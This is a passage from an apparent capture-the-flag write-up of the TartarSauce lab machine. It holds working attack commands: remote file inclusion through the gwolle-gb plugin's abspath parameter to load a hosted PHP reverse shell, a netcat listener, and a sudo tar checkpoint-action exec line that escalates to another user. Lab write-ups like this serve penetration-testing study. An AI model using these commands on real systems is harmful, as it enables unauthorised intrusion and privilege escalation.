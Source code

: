 The version installed was actually `1.5.3`! This means the exploit will work! 

# Exploitation (1)

According to the exploit, we need to setup a web server hosting a `wp-load.php` file. I will be using [file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```bash
$ ls web
php-reverse-shell.php
$ mv web/php-reverse-shell.php web/wp-load.php
$ sudo updog -p 80   
[+] Serving /home/kali/Desktop/web...
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```

Then, using our browser, we will browse to `http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.XX.XX/`. On our `nc` listener that we setup beforehand, we get a shell as `www-data`!

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.88] 36646
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 22:38:41 up 46 min,  0 users,  load average: 0.07, 0.05, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

# Enumeration (2)

Checking `www-data`'s `sudo` rights, we see that he can run `tar` as `onuma`.

```bash
sudo -l 
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

# Exploitation (2)

According to GTFOBins, we can use `tar` to spawn a shell as `onuma`.

```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```
